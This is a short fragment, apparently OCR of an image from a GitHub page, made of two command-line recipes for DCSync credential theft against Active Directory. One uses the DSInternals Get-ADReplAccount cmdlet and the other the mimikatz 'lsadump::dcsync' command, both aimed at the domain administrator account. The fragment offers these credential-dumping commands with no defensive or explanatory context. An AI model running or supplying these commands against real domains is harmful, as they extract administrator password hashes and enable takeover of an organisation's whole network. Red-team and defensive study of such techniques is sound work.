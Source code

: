 
## DSInternal module

Get-ADReplAccount -user Administrator -domain contoso –server dc01

## Using mimikatz

lsadump::dcsync /domain:contoso.com /user:administrator
